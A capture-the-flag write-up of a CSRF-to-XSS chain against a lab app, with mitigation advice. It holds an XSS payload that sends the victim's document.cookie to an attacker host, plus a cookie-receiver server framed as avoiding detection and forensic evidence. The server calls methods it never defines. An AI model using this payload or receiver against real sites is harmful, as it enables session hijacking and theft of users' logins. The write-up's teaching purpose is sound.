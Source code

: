 # CSRF → XSS → Cookie Theft Challenge Writeup

## Challenge Overview

This challenge demonstrates a multi-stage web attack combining three vulnerabilities:
1. **Cross-Site Request Forgery (CSRF)**: Force an authenticated user to execute unintended actions
2. **Cross-Site Scripting (XSS)**: Inject and execute malicious JavaScript in a target domain
3. **Session Hijacking**: Steal authentication cookies to impersonate the victim

The goal was to compromise an admin account by chaining these vulnerabilities to ultimately retrieve the system's flag.

## Solution Architecture

### Stage 1: CSRF Vector (index.html)
```html
<!DOCTYPE html>
<html>
<body>
<script>
const payload = "<img src=x onerror='new Image().src=\"http://hacker.localhost:1337/steal?\"+document.cookie'>";
window.location = "http://challenge.localhost/ephemeral?msg=" + encodeURIComponent(payload);
</script>
</body>
</html>
```

**Technical Rationale:**
- Uses `window.location` to force a navigation CSRF
- Payload is URL-encoded to survive transmission
- `img` tag with invalid source ensures `onerror` execution
- `Image().src` provides a lightweight exfiltration method

### Stage 2: Cookie Receiver (server.py)
```python
from http.server import BaseHTTPRequestHandler, HTTPServer
from urllib.parse import urlparse

class Handler(BaseHTTPRequestHandler):
    def do_GET(self):
        if self.path.startswith('/steal'):
            self.log_theft(self.path)
            self.send_response(200)
            self.end_headers()
            return
            
        self.serve_index()

if __name__ == '__main__':
    HTTPServer(('0.0.0.0', 1337), Handler).serve_forever()
```

**Design Considerations:**
- Minimal server implementation to avoid detection
- Separate handlers for attack payload and data exfiltration
- Silent operation with only essential logging
- No persistent storage to avoid forensic evidence

## Attack Execution Flow

### Phase 1: Initial Compromise
1. **Victim Authentication**:
   - Admin logs into the vulnerable application
   - Session cookie is set in their browser

2. **CSRF Trigger**:
   - Admin visits attacker-controlled page
   - Malicious script executes automatically

### Phase 2: Payload Delivery
3. **XSS Injection**:
   - Browser is redirected to vulnerable endpoint
   - Payload is reflected into page DOM
   - Malicious JavaScript executes in application context

4. **Cookie Exfiltration**:
   - Same-origin policy allows cookie access
   - Stolen credentials are sent to attacker server
   - HTTP request appears as normal resource load

### Phase 3: Session Hijacking
5. **Attacker Retrieval**:
   - Server logs captured credentials
   - Attacker extracts session token from logs

6. **Privilege Escalation**:
   - Token is used to impersonate admin
   - Protected resources are accessed
   - Flag is retrieved from admin interface

## Technical Analysis

### Why This Combination Works
1. **CSRF Enables XSS Delivery**:
   - Bypasses authentication requirements
   - Leverages victim's existing session
   - Delivers payload to reflection point

2. **XSS Bypasses SOP**:
   - Executes in target origin context
   - Accesses protected cookies
   - Makes authenticated requests

3. **Minimalist Design Benefits**:
   - Fewer components reduce failure points
   - Lightweight payload avoids detection
   - Simple server is easily disposable

## Mitigation Strategies

### Defense-in-Depth Approach
1. **Against CSRF**:
   - Synchronizer token pattern
   - SameSite cookie attributes
   - Critical action confirmation

2. **Against XSS**:
   - Strict Content Security Policy
   - Context-aware output encoding
   - Trusted Types for DOM manipulation

3. **Against Session Hijacking**:
   - HttpOnly and Secure flags
   - Short session timeouts
   - IP binding for sensitive actions

## Key Lessons Learned

1. **Vulnerability Chaining**:
   - Individual weaknesses become critical when combined
   - Attack surfaces expand with interaction points

2. **Browser Security Nuances**:
   - Same-origin policy limitations
   - Cookie accessibility rules
   - Automatic credential inclusion

3. **Attack Design Principles**:
   - Minimalism increases reliability
   - Indirect techniques bypass defenses
   - Logging is crucial for blind attacks

This challenge demonstrates how modern web attacks often require chaining multiple vulnerabilities to achieve significant impact, emphasizing the need for comprehensive security measures.